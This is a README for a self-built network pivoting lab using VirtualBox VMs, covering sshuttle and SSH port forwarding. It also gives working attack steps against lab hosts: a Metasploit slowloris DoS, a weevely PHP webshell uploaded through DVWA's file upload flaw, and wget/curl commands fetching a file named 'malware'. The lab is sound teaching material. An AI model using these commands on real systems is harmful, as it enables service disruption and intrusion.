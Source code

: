 # NM-Lab-Network-pivoting

This is a little playground for practicing network pivoting.

## Prerequisite

### Network architecture and setups

The following is our network settings for doing this Lab.

#### Local (Attacker)
* OS : MacOS or Kali Linux  
* IP : 192.168.2.105 (For example) (Connect with Internet)

#### VirtualBox VM1 (SSH Server)  
* OS : Ubuntu server 20.04  
* (Adapter1 橋接網路卡 Bridge enp0s3) IP : 192.168.2.113 (For example)  
* (Adapter2 內網 Internal enp0s8) IP : 192.168.1.1 (For example)  

#### VirtualBox VM2 (Target Machine)
* OS : Ubuntu server 20.04.2 or Kali Linux  
* (Adapter2 內網 enp0s8) IP : 192.168.1.100 (For example)

#### VirtualBox VM3 (Optional)
* OS : Metasploitable2 (For running DVWA)  
(You can also install DVWA on the target machine, but it is a longer process for installing DVWA alone.)  
(I personally take this as my guideline to [install DVWA](<https://medium.datadriveninvestor.com/setup-install-dvwa-into-your-linux-distribution-d76dc3b80357>))
* (內網 eth0) IP : 192.168.1.101 (For example)  

#### Step 0  
* 下載然後導入 ubuntu server 到 VirtualBox  
https://ubuntu.com/download/server  

#### Step 1 
* 完成 VirtualBox 的網路介面卡設定 確認連接內網的網路卡擁有相同的名稱  

#### Step 2
* 登陸兩(三)台要連接內網的VM之後，使用  
```
$ ifconfig -a
``` 
* 確認內網網路卡的名稱 (ex: enp0s8)，然後使用指令  
```
$ sudo ifconfig enp0s8 192.168.1.1 netmask 255.255.255.0 up
```  
* 開啟網路卡 192.168.1.1
  可以自己設定 (不同的機器要不同 ex : 192.168.1.1 & 192.168.1.100)  
  不過注意每一次開機都要設定  

* 這樣即完成網路設定  
  可以用 ping 或 ifconfig 指令做確認  

### Enviroment & Installation & Requirement

#### Local (Attacker)
[Ssuttle](<https://github.com/sshuttle/sshuttle>) (For pivoting)  
  
[Nmap](<https://nmap.org/book/inst-macosx.html>) (For scanning)(option)  

[Metasploit](<https://www.metasploit.com>) (For using slowloris DOS attack exploit module)      

#### VirtualBox VM1 (SSH Server)  

Required
* SSH service  
* HTTP service (Apache web service)
* A root account (for sshuttle)
* A normal user account (for port forwarding)

#### VirtualBox VM2 (Target machine)

Required
* SSH service  
* HTTP service (Apache web service)  

## Ways of Pivoting

To confirm the results of pivoting, a http server has been hosted on target machine at port 8000 using 
```
python -m SimpleHTTPServer
```

We can use 
```
http://192.168.1.100:8000
```
to connect it from internal network  

### sshuttle  

On terminal  
```
$ sshuttle -r user@192.168.2.113 192.168.1.0/24
```  
Root privilege is required for both local and the ssh server.

### Dynamic port forwarding
On pivot (SSH server):  
```
$ ssh user@192.168.2.113 -D 127.0.0.1:21000 -N
```  
You can use any available port on localhost  

### Reverse remote port forwarding
#### Attacker
Step 1 :   
* Create a new dedicated user  
```
$ sudo useradd sshpivot --no-create-home --shell /bin/false  
$ sudo passwd sshpivot  
```
Step 2 :  
* Add `/bin/false` to `/etc/shells`  

Step 3 :  
```
sudo systemctl restart ssh
```  

Step 4 :  
* Request `http://127.0.0.1:14000` to reach `http://192.168.1.100:8000` after pivot connected  

#### Pivot (SSH server)
```
$ ssh sshpivot@192.168.2.105 -R 127.0.0.1:14000:192.168.1.100:8000 -N
```  

## Ways of Attack

### DOS

* Open terminal and Run metasploitable  
* Somewhere in the `/opt/metasploit-framework/bin/` (with MacOS High Sierra)

```
$ ./msfconsole
```  
* Some configurations if first time use
```
msf6 > search slowloris  
msf6 > use auxiliary/dos/http/slowloris  
msf6 auxiliary(dos/http/slowloris) > options  
msf6 auxiliary(dos/http/slowloris) > set sockets 200
```
* the number of `sockets` doesn't really matter
```
msf6 auxiliary(dos/http/slowloris) > set rhost 192.168.1.100  
msf6 auxiliary(dos/http/slowloris) > run  
```

* Now you should see it working !!!  

* 可以在 target machine 上下指令確認有沒有被DOS  
```
$ systemctl status
```  

### Reverse shell
Use DVWA's file upload vulnerability to open a reverse shell (webshell). [Reference](https://medium.com/blacksecurity/557d6392eefe)  

Step 1 :  
```
weevely generate %password% %~/shell.php%
```  

Step 2 :  
* Upload `shell.php`  

Step 3 :  
```
proxychains weevely http://192.168.1.101/dvwa/hackable/uploads/shell.php %password%
```  

* Note that we must use `proxychains` to connect with proxy. Add `socks4 127.0.0.1 21000` to `/etc/proxychains4.conf`.  

### Downloading other malwares

#### From internal network
* There's a file called malware on VM2 (target machine), download it from other machine in LAN. We can use  
```
$ wget http://192.168.1.100:8000/malware
```  
or  
```
$ curl -O http://192.168.1.100:8000/malware
```  

#### From external network
* If target machine can access external network, we can use similar command as above. If target only has access to internal network, "reverse pivoting" to connect to attacker. However, reverse pivoting might not success if we use the webshell we described previously.  
